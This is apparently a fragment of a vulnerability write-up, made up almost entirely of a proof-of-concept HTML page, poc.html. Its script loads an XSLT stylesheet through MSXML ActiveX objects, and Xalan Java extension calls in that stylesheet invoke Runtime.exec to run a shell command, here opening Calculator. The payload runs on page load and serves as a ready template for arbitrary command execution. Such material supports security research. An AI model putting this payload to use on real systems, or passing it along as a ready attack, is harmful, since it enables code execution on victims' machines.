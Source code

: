 ```plain
```

poc.html

```plain
<script>
    var xslt = new ActiveXObject("Msxml2.XSLTemplate.6.0");
    var xslDoc = new ActiveXObject("Msxml2.FreeThreadedDOMDocument.6.0");
    var xslProc;
    xslDoc.async = false;
    xslDoc.loadXML(`<xsl:stylesheet version="1.0" xmlns:xsl="http://www.w3.org/1999/XSL/Transform" xmlns:rt="http://xml.apache.org/xalan/java/java.lang.Runtime" xmlns:ob="http://xml.apache.org/xalan/java/java.lang.Object">
   <xsl:template match="/">
     <xsl:variable name="rtobject" select="rt:getRuntime()"/>
     <xsl:variable name="process" select="rt:exec($rtobject,'open -a Calculator')"/>
     <xsl:variable name="processString" select="ob:toString($process)"/>
     <span><xsl:value-of select="$processString"/></span>
   </xsl:template>
 </xsl:stylesheet>`)

    if (xslDoc.parseError.errorCode != 0) {
        var myErr = xslDoc.parseError;
        document.write("ParseError: "+myErr.reason);
    } else {
        xslt.stylesheet = xslDoc;
        var xmlDoc = new ActiveXObject("Msxml2.DOMDocument.6.0");
        xmlDoc.async = false;
        xmlDoc.loadXML("<s></s>");
        if (xmlDoc.parseError.errorCode != 0) {
            var myErr = xmlDoc.parseError;
            document.write("Document error: " + myErr.reason);
        } else {
            xslProc = xslt.createProcessor();
            xslProc.input = xmlDoc;
            xslProc.transform();
            document.write(xslProc.output);
        }
    }
</script>
```

[![](assets/1702521100-81738f170cdb0d99819dc1764c33aaeb.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231203235706-9b81d50a-91f4-1.png)
